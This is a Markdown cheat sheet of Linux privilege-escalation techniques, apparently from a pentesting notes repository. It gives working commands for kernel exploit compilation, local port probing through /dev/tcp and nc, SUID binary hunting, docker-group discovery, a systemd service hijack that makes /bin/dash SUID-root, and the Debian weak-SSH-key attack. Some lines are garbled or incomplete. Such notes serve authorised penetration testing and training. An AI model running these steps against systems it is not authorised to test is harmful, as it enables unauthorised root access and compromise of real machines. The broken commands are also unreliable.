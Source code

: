 # Priv-Esc Linux

## **Tools**

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

---

## **Kernel Exploitation**

### Check version

```bash
uname -a
cat /etc/*release
cat /etc/issue
```

Compile for x86 on a x64 machine

```bash
sudo apt update && sudo apt install -y gcc-multilib 
gcc -Wl,--hash-style=both -m32 <exploit.c>
```

Cross-Compile for Windows from Linux

```bash
sudo apt update && sudo apt install -y mingw-w64
i686-w64-mingw32-gcc <exploit.c>
```

---

## **Programms running**

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

---

## **Services listening**

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

---

## **Binaries enum**

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

---

## **Docker**

```bash
# we look for docker.sock
find / -group docker -exec ls -la {} 2>/dev/null \;
```

---

## **Systemd**

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

---

## **Debian-ssh**

- [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)

```bash
git clone https://github.com/g0tmi1k/debian-ssh.git
de debian-ssh/our_tools/
tar xvjf ubunturoot.tar.bz2

cp dokeygen.sh 
chroot ubunturoot /dokeygen.sh 1 -t dsa -b 1024 -f /tmp/dsa_1024_1

ssh-keygen -l -E md5 -f ~/.ssh/id_rsa.pub
```


